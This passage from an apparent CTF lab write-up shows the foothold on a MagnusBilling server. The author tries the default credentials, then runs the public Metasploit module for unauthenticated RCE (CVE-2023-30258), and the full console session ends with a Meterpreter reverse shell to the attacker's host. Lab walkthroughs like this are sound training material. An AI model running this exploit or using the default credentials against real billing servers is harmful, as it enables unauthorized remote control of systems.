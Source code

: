 We see that it has HTTP port open, so I added it to my `etc/hosts` file and I would've ran `ffuf` in the hopes of finding some subdirectories or folders while I manually browse the webpage, but since the room said "Bruteforcing is out of scope" I skipped on that.

## HTTP: MagnusBilling

From the Nmap scan and accessing the website we see that it is running MagnusBilling, which is a VoIP billing platform. I immediately ran some basic creds and their own default cred of `root:magnus` but to no avail.
![Image](/ctf-vault/assets/images/articles/mbilling.png){:.rounded}

I parked it for later, and simply searched "magnusbilling vulnerability" and came across [Rapid7's database](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/) which said MagnusBilling v6.x and v7.x are vulnerable to RCE. Since we couldn't find the version running on the platform (without bruteforcing!), let's simply try running this exploit.

# Foothold
So I searched the module and loaded it with all the required parameters before running it.
```shell
$ msfconsole -q
msf6 > search magnusbilling

Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.
   1    \_ target: PHP                                            .                .          .      .
   2    \_ target: Unix Command                                   .                .          .      .
   3    \_ target: Linux Dropper                                  .                .          .      .


Interact with a module by name or index. For example info 3, use 3 or use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
After interacting with a module you can manually set a TARGET with set TARGET 'Linux Dropper'

msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set rhosts billing.thm
rhosts => billing.thm
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set lhost tun0
lhost => 10.6.49.253
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit
[*] Started reverse TCP handler on 10.6.49.253:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.226.215:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 8 seconds.
[*] Elapsed time: 8.26 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 10.10.226.215
[+] Deleted NAuTsHNDM.php
[*] Meterpreter session 1 opened (10.6.49.253:4444 -> 10.10.226.215:44742) at 2025-05-21 17:03:30 -0400
```